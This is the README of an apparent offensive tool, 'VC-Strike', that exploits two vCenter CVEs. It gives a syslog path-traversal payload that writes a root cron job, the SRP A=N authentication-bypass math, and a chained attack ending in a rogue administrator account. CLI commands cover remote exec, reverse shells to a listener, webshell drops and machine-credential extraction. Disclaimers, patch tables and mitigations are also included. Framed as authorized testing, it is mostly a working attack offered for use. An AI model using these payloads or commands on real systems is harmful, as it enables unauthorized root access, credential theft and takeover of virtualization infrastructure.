









<div align="center">

# ⚡ VC-Strike

### VMware vCenter 一体化授权渗透测试套件

**CVE-2026-59310** 未授权 root RCE · **CVE-2026-59309** SRP 认证绕过

[](https://github.com/chu0119/vc-strike/releases)
[](https://github.com/chu0119/vc-strike/actions/workflows/ci.yml)
[](https://python.org)
[](https://github.com/chu0119/vc-strike)
[](https://github.com/chu0119/vc-strike)
[](LICENSE)
[](https://github.com/chu0119/vc-strike/stargazers)

[📸 界面](#-界面一览) · [🧠 漏洞原理](#-漏洞原理) · [⛓️ 攻击链](#️-攻击链) · [🧰 功能](#-功能) · [🚀 快速开始](#-快速开始) · [📖 文档](#-文档)

**GUI + CLI** · **零第三方依赖** · **Python 3.8+** · **Windows**

</div>

---

> [!WARNING]
> **仅供已获书面授权的渗透测试 / 漏洞验证 / 防御研究使用。**
> 未授权访问计算机系统属于刑事犯罪。使用者自行承担一切法律责任。

---

## 📋 概览

### 这个工具能干什么

以攻击者视角描述每一步的实际输入与输出：

| # | 你做什么 | 工具做什么 | 你得到什么 |
|:---:|---|---|---|
| 1 | 填入目标 IP | 探测 443/5480/514/1514/389/636/2020 + API 版本 + SASL 机制 | 攻击面判定（两个 CVE 是否可用）|
| 2 | 发一个 UDP 包 | 构造 RFC5424 报文（APP-NAME 携带路径穿越 + 换行穿透）| 目标任意路径写入 root 属主文件 |
| 3 | 等待 ~60 秒 | cron.d 计划任务触发 → 命令输出重定向到 VAMI 静态目录 → HTTP 读回 | **root 命令执行 + 输出回传**（无需反弹连通性）|
| 4 | 发一个 SASL bind | SRP 认证绕过（A=N → K=SHA1("") → 伪造 M1）| 任意身份读写 SSO 目录 |
| 5 | 点"一键打通" | 自动串联 1-4 + 新建管理员 + 加入 Administrators + bind 回验 | **可登录 /ui 的管理员账户 + 密码** |
| 6 | 用交付账户登录 443 | 官方 REST API 只读盘点：VM / 主机 / 数据存储 / 集群 / 网络 | 影响范围清单（写入测试报告）|
| 7 | ⑥ 页点一键清除 | 生成清理命令（含全部 cron/文件/账户落点）| 目标状态还原 |

### 影响版本

> [!IMPORTANT]
> **CVE-2026-59309/59310 的底层漏洞代码（rsyslog 路径模板 + Likewise libsrp.so）
> 自 vCenter 6.0 起就存在。** VMSA 通告仅列出当前受支持分支的修复版本；
> 已停止支持的旧版本（6.0/6.5/6.7 等）**无法获得补丁**但同样受影响。
> 实测确认 6.x 时代 appliance（Photon 1.0 内核）**两个漏洞均可利用**。

| 分支 | 受影响范围 | 修复版本 | 支持状态 |
|---|---|---|---|
| vCenter 9.1 | < 9.1.0.0300 | **9.1.0.0300** | ✅ 当前支持 |
| vCenter 9.0 | < 9.0.2.0100 | **9.0.2.0100**（Build 25629525）| ✅ 当前支持 |
| vCenter 8.0 U3 | < 8.0 U3k | **8.0 U3k** | ✅ 当前支持 |
| vCenter 8.0 U2 | < 8.0 U2f | **8.0 U2f** | ✅ 当前支持 |
| vCenter 8.0 初始/U1 | 全部 | 升级至 8.0 U3k+ | ✅ 当前支持 |
| vCenter 7.0 | — | 联系 Broadcom 获取补丁 | ⚠️ 延长支持 |
| **vCenter 6.x** | **全部** | **无补丁（已 EOL）** | ❌ 仅能缓解 |

同时影响 VCF / vSphere Foundation / Telco Cloud 中内嵌的 vCenter 组件。

**厂商通告**：[VMSA-2026-0006.1](https://support.broadcom.com/web/ecx/support-content-notification/-/external/content/SecurityAdvisories/0/38017)

### 实测验证

以下结果来自**真实 vCenter 6.x 环境**（Photon 1.0 内核）的授权渗透测试：

| 测试项 | 结果 |
|---|---|
| 59310 写入验证（非破坏）| ✅ root 文件确认落盘 |
| 59310 RCE（VAMI 回显）| ✅ `uid=0(root)` 命令执行确认 |
| 59310 机器账户提取 | ✅ dcAccountDN + dcAccountPassword |
| 59310 一键打通（自动关机→导出→恢复）| ✅ OVA 落盘 |
| 59310 vSphere REST 盘点 | ✅ VM/主机/存储/集群/网络清单获取 |
| 59309 SRP 机制确认 | ✅ rootDSE 通告 `GSSAPI SRP` |
| 59309 挑战解析 | ✅ N=2048bit RFC5054 素数 |
| 59309 完整绕过 | ⏳ 需 6.x 版本重测（v1.6.4 修复了解析问题）|

### 补丁与修复

| 项目 | 链接 |
|---|---|
| **VMSA-2026-0006.1**（厂商通告）| [Broadcom Advisory](https://support.broadcom.com/web/ecx/support-content-notification/-/external/content/SecurityAdvisories/0/38017) |
| **GHSA-v2gp-49gj-2c9f**（CVE-2026-59310）| [GitHub Advisory](https://github.com/advisories/GHSA-v2gp-49gj-2c9f) |
| **GHSA-fcv2-9hgc-5mgq**（CVE-2026-59309）| [GitHub Advisory](https://github.com/advisories/GHSA-fcv2-9hgc-5mgq) |
| **vCenter 9.0.2.0100 发行说明** | [Broadcom Docs](https://techdocs.broadcom.com/us/en/vmware-cis/vcf/vcf-9-0-and-later/9-0/release-notes/patch-releases-9-0-0-x/vsphere/vcenter/vcenter-9-0-2-0100-release-notes.html) |
| **rsyslog GHSA-xmp9-244p-5ggv** | [GitHub Advisory](https://github.com/rsyslog/rsyslog/security/advisories/GHSA-xmp9-244p-5ggv) |

**临时缓解**（无法立即升级时）：

1. 514/1514 仅对受管 ESXi 开放（防火墙 ACL）
2. rsyslog 输入绑定 `pmrfc3164` 解析器（关闭 RFC5424 攻击面）
3. omfile 启用 `securepath="normal"` + `secpath-drop="replace"`
4. `$EscapeControlCharactersOnReceive on`
5. 389/636/2020 限管理网可达

> 📖 完整缓解措施与入侵痕迹排查见 [docs/检测与加固.md](docs/检测与加固.md)

---

## 📸 界面一览

<details open>
<summary><b>展开九页签截图</b></summary>

| 页签 | 截图 |
|:---:|:---:|
| **① 目标与指纹**<br>批量探测 · CSV 导出<br>右键菜单 · 列宽拖拽 |  |
| **② CVE-2026-59310 利用**<br>写入验证 · RCE 回显<br>WebShell · 反弹 Shell |  |
| **③ CVE-2026-59309 利用**<br>绕过 · 枚举 · 建管 · 删除<br>一键评估 |  |
| **④ C2 / 反弹 Shell**<br>多会话 · 实时终端<br>上传 / 下载 |  |
| **⑤ 后渗透**<br>七项一键动作<br>凭据自动入账 |  |
| **⑥ 清理中心**<br>自动登记 · 一键生成<br>一键清除目标残留 |  |
| **⑦ 检测与加固**<br>防御侧自查 / IOC<br>缓解措施 |  |
| **⑧ 一键打通**<br>只填 IP 全自动<br>交付管理员账户 |  |
| **⑨ vSphere 管理**<br>VM 清单 · 排序 · 右键<br>电源操作 · 导出 OVA |  |

</details>

---

## 🧠 漏洞原理

<details open>
<summary><b>🔴 CVE-2026-59310 — Syslog 目录遍历 → root RCE</b></summary>

#### 成因

vCenter 内置 rsyslog 服务接收 ESXi 主机日志。其动态路径模板将 RFC5424
报文头字段**未净化**地拼接进落盘路径：

```ruby
# /etc/rsyslog.conf（VMware 出厂默认）
$template rsyslogadminLoc, "/var/log/vmware/%app-name%/%app-name%-syslog.log"
```

`%app-name%` 同时作为**目录名**和**文件名前缀**——攻击者可在报文头中注入
遍历序列，让写入路径逃出日志目录，实现**任意路径 root 文件写入**。

#### 利用条件

| 条件 | 出厂默认 | 说明 |
|---|---|---|
| 动态模板 `%app-name%` 拼接 | ✅ 存在 | 目录名 + 文件名双注入点 |
| 选择器 `startswith, "rsyslog"` | ✅ 仅前缀匹配 | `rsyslog/…` 即命中规则 |
| 换行穿透 | ✅ off | 报文 MSG 中换行原样落盘 |
| RFC5424 解析器无字符白名单 | ✅ 可达 | 同一端口同时接受 3164/5424 |

#### 利用载荷

```
<134>1 <时间戳> h rsyslog/../../../../../etc/cron.d/pwn 1 ID47 - <内容>
```

APP-NAME 中的 `rsyslog/../../../../../` 逃出日志目录，落盘路径变为
`/etc/cron.d/pwn-syslog.log`（root 属主）。利用换行穿透 + 前导空行，
注入的 `* * * * * root <命令>` 被识别为合法 cron 行——**约 60 秒后 root 执行**。

#### 备用向量

`HOSTNAME = "../" × 16`（esxLoc 模板）——两条独立写入通道互为备份。

#### 修复

修复版将模板替换包裹 `secpath-replace`，并将 omfile 配置
`securepath="normal"` + `secpath-drop="replace"`。

</details>

<details>
<summary><b>🟠 CVE-2026-59309 — vmdird SRP 认证绕过</b></summary>

#### 成因

vmdird 的 LDAP SASL SRP 实现（Cyrus SASL `libsrp.so`）未按 RFC5054 §3.1
校验客户端公值 **A ≢ 0 (mod N)**。发送 **A = N**：

```python
u = H(A | B)                    # 公开（A、B 均在报文中）
S = (v^u · A)^b mod N = 0       # A ≡ 0 (mod N)，与口令验证元 v 无关
K = H(bytes(S)) = SHA1(b"")     # BN_bn2bin(0) 输出空串 → 公开常量
M1 = H(Ng ⊕ ‖ H(U) ‖ s ‖ A ‖ B ‖ K ‖ H(I) ‖ H(L))
     # 全部输入公开或自选 → 可伪造
```

服务端比对 M1 一致即认证通过——以任意**存在**的身份获得 SSO 目录读写。

#### 利用条件

| 条件 | 说明 |
|---|---|
| 端口可达 | TCP 389 / 636 / 2020 任一 |
| 身份存在 | `administrator@vsphere.local` 等合法身份串 |

#### 影响

枚举 SSO 全部用户/组、创建新用户并加入 Administrators（→ 登录 `/ui`
获得虚拟化管理面）、重置任意账户 `userPassword`。

#### 修复

修复版增加 `BN_div` 校验并返回
`Illegal value for 'A' (A mod N == 0)`（VC-Strike 识别该报错并判定已修复）。

</details>

---

## ⛓️ 攻击链

```
        ┌────────────────────────────────────────────────────────────┐
        │  目标 vCenter（UDP/514 可达即可，全程无凭据）               │
        └────────────────────────────┬───────────────────────────────┘
                                     │
     ┌───────────────────────────────┴──────────────────────────────┐
     │ CVE-2026-59310                                               │
     │ RFC5424 APP-NAME 路径穿越 → 任意路径 root 写入                │
     │   ├─ /etc/cron.d/<x>-syslog.log（一次性自毁 cron）           │
     │   │    └─ crond 以 root 执行（约 60s）                       │
     │   │         ├─ 命令输出 → htdocs → VAMI:5480 HTTP 回显       │
     │   │         ├─ 反弹 shell（bash/python，base64 封装）        │
     │   │         └─ JSP 落地 perfcharts statsreport               │
     │   └─ 备用向量：HOSTNAME = ../ × 16（esxLoc 模板）            │
     └────────────────────────────┬─────────────────────────────────┘
                                  │
     ┌────────────────────────────┴───────────────────────────────┐
     │ 凭据收获                                                    │
     │  lwregshell → dcAccountDN / dcAccountPassword（机器账户）   │
     │  + SSO 域名（dcAccountDN 推导）                             │
     └────────────────────────────┬────────────────────────────────┘
                                  │
     ┌────────────────────────────┴───────────────────────────────┐
     │ CVE-2026-59309                                              │
     │ SASL SRP：A=N → S=0 → K=SHA1("") → 伪造 M1 → bind 成功     │
     │  → 任意身份读写 SSO 目录                                    │
     └────────────────────────────┬────────────────────────────────┘
                                  │
                      ┌───────────┴──────────────┐
                      │ 新建账户 → 加入 Administrators  │
                      │ → bind 回验 + 组成员确认        │
                      │ → 交付可登录 /ui 的管理员        │
                      └──────────────────────────┘
```

---

## 🧰 功能

| 模块 | 做什么 | 怎么做 |
|---|---|---|
| **指纹** | 判定两个 CVE 是否可用 | TCP 探测 7 个端口 + REST 读 API 版本 + LDAP 读 rootDSE SASL 机制 |
| **59310 利用** | 获取 root 命令执行 | 构造 RFC5424 报文：APP-NAME 路径穿越 → rsyslog 写 root 文件 → cron.d 计划任务 → crond 执行 → 输出重定向到 htdocs → 经 VAMI:5480 HTTP 读回 |
| **59309 利用** | 绕过认证获得目录控制 | SRP bind 中发 A=N → 服务端 S=0 → K=SHA1("") → 伪造 M1 → bind 成功 → 任意身份读写 SSO 目录 |
| **⑧ 一键打通** | 交付可登录 /ui 的管理员 | 自动串联：指纹 → 59310 RCE → 机器账户提取 → SRP 绕过（降级）→ 新建管理员+入组 → bind 回验 → 交付卡片 |
| **C2** | 管理反弹 shell 会话 | 多端口监听 → 会话表 → 实时终端 / exec 回显 / 上传下载（md5 校验）|
| **后渗透** | 凭据与信息收集 | 经 59310 RCE 执行：机器账户提取 / SSO 域名 / 网络盘点 / 服务状态 / 计划任务 / 入侵痕迹快扫 |
| **清理** | 消除测试痕迹 | 全动作自动登记（cron/文件/账户/webshell）→ 一键生成清理命令 / 一键清除目标残留 |

---

## 🚀 快速开始

```bash
git clone https://github.com/chu0119/vc-strike.git
cd vc-strike

python -m vcstrike selftest      # 离线自检（AES 向量 / BER / SRP 构造）
python vc-strike.py              # GUI（无参数默认）
python -m vcstrike --help        # CLI
```

> 零第三方依赖 · Python 3.8+ · Windows（GUI 需系统 tkinter）

### 预编译

从 [Releases](https://github.com/chu0119/vc-strike/releases) 下载：

| 产物 | 说明 |
|---|---|
| `VC-Strike.exe` | CLI + GUI 双形态（带控制台）|
| `VC-Strike-GUI.exe` | 纯 GUI（无控制台）|
| `checksums.txt` | SHA256 校验 |

> PyInstaller 打包的 exe 可能被杀软误报（通用壳特征），请以 checksums.txt
> 校验为准，或直接 `python vc-strike.py` 源码运行。

## ⌨️ CLI 速览

```bash
# 指纹
python -m vcstrike scan 10.0.0.1 --out r.csv

# CVE-2026-59310
python -m vcstrike check59310 10.0.0.1
python -m vcstrike exec59310 10.0.0.1 -c 'id'
python -m vcstrike revshell 10.0.0.1 --lhost 10.0.0.5 --lport 4444

# CVE-2026-59309
python -m vcstrike check59309 10.0.0.1 --bypass
python -m vcstrike ldap59309 10.0.0.1 add-admin --user pentest_x --pass 'xxx'

# 一键打通
python -m vcstrike chain 10.0.0.1

# vSphere 管理
python -m vcstrike vops 10.0.0.1 --user 'x@vsphere.local' --pass 'xxx' --action vms

# 后渗透
python -m vcstrike postex 10.0.0.1 machine-creds
```

## ⌨️ 快捷键

| 按键 | 功能 |
|:---:|---|
| `F2` | ② 页 非破坏写入验证 |
| `F3` | ③ 页 SRP 机制探测 |
| `F4` | ④ 页 启动监听 |
| `F5` | ① 页 批量指纹 |
| `F6` | ⑥ 页 生成清理方案 |
| `F7` | ⑧ 页 一键打通 |
| `F8` | 切到 ⑨ vSphere 管理 |
| `Esc` | 取消 RCE 轮询 |
| `Ctrl+L` | 清空日志 |
| `Ctrl+S` | 保存日志 |

## 🧾 运行日志

每次运行自动在 **exe/脚本同目录** 生成日志：`vc-strike-<gui|cli>-<时间戳>.log`

- 环境头（版本/系统/DPI 缩放）、全部操作与结果、异常完整堆栈、
  C2 会话原始流（ANSI 已剥离）、结束标记
- GUI 底部日志栏 **"打开日志目录"** 按钮可直接定位
- ⚠️ **隐私约定**：日志含目标凭据，`--pass/--password` 值自动掩码。
  **回传前请自行审阅清洗**

## 🛡️ 安全边界

以下能力**不会**实现：

| 不做 | 理由 |
|---|---|
| ESXi 勒索 / 虚拟机破坏 | 与勒索攻击行为同型 |
| 隐蔽持久化（自启/beacon）| 交付的目录管理员账户本身就是持久化证明 |
| 免杀 / EDR 规避 | 防御方需要看到测试痕迹 |
| 目标日志擦除 | 不可逆操作，阻碍客户发现与响应 |
| 批量电源 / 删除类 | 破坏性与勒索前置行为同型 |

## 📦 打包

在项目目录内执行：

```bash
pip install pyinstaller
python -m PyInstaller --noconfirm --clean --onefile --name VC-Strike vc-strike.py
python -m PyInstaller --noconfirm --clean --onefile --windowed --name VC-Strike-GUI vc-strike-gui.py
```

## 📄 法律声明

本仓库以 [MIT License](LICENSE) 开源，但**授权范围不含任何未授权访问行为**。
使用者应遵守所在司法辖区的法律法规。项目作者不对滥用行为承担责任。

## 🙏 参考

- [ChinaRan0/CVE-2026-59310-POC](https://github.com/ChinaRan0/CVE-2026-59310-POC) — 上游 POC/EXP
- [QUIRSO/QTR](https://github.com/QUIRSO/QTR) — IR 工件与 IOC
- [Mobeta 技术分析](https://mobeta.fr/blog/vcenter-cve-2026-59309-cve-2026-59310/)
- [VMSA-2026-0006](https://support.broadcom.com/web/ecx/support-content-notification/-/external/content/SecurityAdvisories/0/38017)
